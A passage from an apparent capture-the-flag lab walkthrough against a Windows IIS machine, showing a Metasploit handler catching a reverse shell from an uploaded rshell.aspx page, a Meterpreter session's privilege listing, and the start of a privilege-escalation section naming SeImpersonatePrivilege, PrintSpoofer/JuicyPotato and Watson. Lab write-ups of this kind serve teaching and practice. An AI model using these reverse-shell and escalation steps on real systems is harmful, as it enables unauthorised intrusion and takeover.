 After uploading it into the directory lets configure our listener and make a request to ```http://10.10.10.5/rshell.aspx``` to spawn the reverse shell

```c
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.6LHOST => 10.10.14.6
msf6 exploit(multi/handler) > set LPORT 9876
LPORT => 9876
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9876 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.6:9876 -> 10.10.10.5:49161 ) at 2022-03-02 12:49:06 -0500

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```

## Privilege escalation

We can clearly see that we have ```SeImpersonatePrivilege``` privilege for the current user

This privilege will allow the current user to create process with other user's privilege

We can use ```print spoofer/juicy potato priv esc attacks``` with this privilege, if the conditions are met

[Watson](https://github.com/rasta-mouse/Watson) is a windows local privilege escalation checker, where it fuzzes for all possible vulnerabilites to escalate the privileges

We could also check for LPE vulnerabilities using ```Watson``` but, that requires ```.NET compatibility``` on victim machine and we have to build the ```exe``` according to the .NET version
